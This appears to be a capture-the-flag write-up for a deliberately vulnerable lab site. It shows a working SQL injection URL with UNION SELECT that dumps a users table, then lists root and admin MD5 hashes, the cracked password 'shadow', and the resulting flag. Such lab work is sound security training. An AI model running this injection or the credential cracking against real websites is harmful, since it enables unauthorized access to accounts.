 
From my work on the userTableSQLInjectionFlag, i exported the table named db_default :

For this db export, try this URL :
http://192.168.0.18/index.php?page=member&id=2%20UNION%20SELECT%20username,%20password%20FROM%20Member_Brute_Force.db_default&Submit=Submit

| id | username | password |
| --- | --- | --- |
| 1 | root | 3bf1114a986ba87ed28fc1b5884fc2f8 |
| 2 | admin | 3bf1114a986ba87ed28fc1b5884fc2f8 |

These are login and md5 hashed password.
They are the same and the decrypted version is : shadow

There is an official sign-in page in the web site, if i login to this page with admin:shadow or root:shadow, i got a page with a flag : `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`
